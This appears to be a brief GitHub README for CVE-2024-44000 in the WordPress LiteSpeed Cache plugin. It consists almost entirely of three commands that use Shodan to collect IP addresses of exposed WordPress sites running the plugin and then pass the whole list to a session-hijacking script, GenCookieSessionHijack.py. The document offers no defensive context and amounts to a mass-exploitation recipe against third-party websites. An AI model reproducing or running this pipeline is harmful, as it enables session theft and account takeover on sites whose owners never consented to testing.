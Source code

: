 # found_security_advise
# CVE_2024_44000
```
shodan download wordpress_1 "http.component:'wordpress' http.component:'litespeed cache' port:80"
shodan parse --fields ip_str --separator , wordpress_1.json.gz > wordpress_1.txt
python GenCookieSessionHijack.py -f wordpress_1.txt -o result.txt
```

